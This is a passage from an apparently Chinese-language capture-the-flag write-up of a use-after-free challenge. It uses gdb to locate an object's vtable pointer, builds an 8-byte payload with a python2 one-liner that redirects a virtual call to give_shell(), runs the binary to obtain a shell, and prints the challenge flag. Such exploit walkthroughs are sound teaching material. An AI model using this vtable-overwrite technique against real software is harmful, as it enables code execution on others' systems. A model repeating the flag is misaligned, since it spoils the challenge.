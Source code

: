 這時候 Man::Man() 尚未被呼叫，根據 x86_64 calling convention, 物件的第一個參數會被擺在 rdi

這邊第一個參數就是 `m` 的 address。由以下結果，我們可得知 **m 的記憶體位址：0x666c50**
```
(gdb) p/x $rdi
$1 = 0x666c50
```

接下來執行 Man::Man() ，讓 constructor 把 m 的 vtable 設定進去
```
(gdb) ni
0x0000000000400f18 in main ()
```

再看一下 m (0x666c50) 的內容，得知 **m 的 __vfptr value 是：0x00401570**
```
(gdb) x/6x 0x666c50
0x666c50:       0x00401570 (__vfptr)  0x00000000     0x00000019 (age)     0x00000000
0x666c60:       0x00666c38 (name)     0x00000000
```

我們說 __vfptr 會指向 Man 的第一個 virtual function，也就是 Human::give_shell()

第二個 virtual function 是 Man::introduce()，因爲在 `Man::introduce()` overrides `Human::introduce()`
```
(gdb) x/2a 0x00401570
0x401570 <_ZTV3Man+16>: 0x40117a <_ZN5Human10give_shellEv>      0x4012d2 <_ZN3Man9introduceEv>
```

所以 m->introduce() 在執行的時候，實際上是呼叫了 m 的 __vfptr+8 的 function。

我們可以試着篡改 __vfptr 的值，讓 `m->introduce()` 呼叫 `m->give_shell()`

這邊只要讓 __vfptr 的值爲 `__vfptr-8 = 0x0000000000401568` 就可以了，並寫入檔案。
```
$ python2 -c 'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > /tmp/aesophor_uaf/vt
```

執行程式，分配 24 bytes 的資料（和 m 的大小一樣）並將 0x0000000000401568 讀入我們剛剛重新分配的空間
```
uaf@prowl:~$ ./uaf 24 /tmp/aesophor_uaf/vt
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ 
```

`3 2 2 1` 就可以取得shell。

這邊執行兩次2的原因在於：先 `delete m` 然後才 `delete w`。
* 第一次選擇2的時候，資料會讀進 w 的區域
* 第二次選擇2的時候，資料會讀進 m 的區域

flag: `yay_f1ag_aft3r_pwning`
